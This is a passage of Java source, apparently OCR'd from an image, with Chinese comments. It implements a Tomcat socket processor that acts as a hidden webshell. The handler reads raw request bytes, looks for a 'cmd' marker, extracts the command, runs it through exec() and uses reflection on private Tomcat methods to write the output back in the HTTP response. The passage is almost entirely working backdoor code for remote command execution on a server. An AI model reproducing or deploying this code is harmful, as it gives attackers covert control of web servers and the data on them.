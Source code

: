 ```plain
                    return jioEndPoint;
                }
            }

        }
        return new Object();
    }


    public static Object getField(Object object, String fieldName) {
        Field declaredField;
        Class clazz = object.getClass();
        while (clazz != Object.class) {
            try {

                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (NoSuchFieldException | IllegalAccessException e) {
            }
            clazz = clazz.getSuperclass();
        }
        return null;
    }


    @Override
    public SocketState process(SocketWrapperBase wrapper, SocketEvent status) {
        byte[] bytes = new byte[8192];
        ByteBuffer buf = ByteBuffer.wrap(bytes);
        try {
            wrapper.read(false, buf);
            buf.position(0);
            wrapper.unRead(buf);

        } catch (Exception e) {
            e.printStackTrace();
            buf.position(0);
            wrapper.unRead(buf);
        }
        SocketState r = SocketState.CLOSED;

        try {
            String a = new String(buf.array(), "UTF-8");
            System.out.println(a);
            if (a.indexOf("cmd") != -1) {
                //setSocketWrapper  response写数据实际是调用wrapper写数据，不调用该方法wrapper为null
                Method setMethod = processor.getClass().getDeclaredMethod("setSocketWrapper", SocketWrapperBase.class);
                // 设置方法可访问
                setMethod.setAccessible(true);
                // 调用私有方法
                setMethod.invoke(processor, wrapper); // 传入参数
                String cmd = a.substring(a.indexOf("cmd") + "cmd".length() + 1, a.indexOf("\r", a.indexOf("cmd")));
                byte[] result = exec(cmd.trim());
                processor.getRequest().getResponse().doWrite(ByteBuffer.wrap(result));
                //调用finishResponse，使流刷新
                Method finshMethod = processor.getClass().getDeclaredMethod("finishResponse");
                finshMethod.setAccessible(true);
                finshMethod.invoke(processor);
//                processor.getRequest().getResponse().addHeader("type:","afeafaeaaw");
            } else {
```
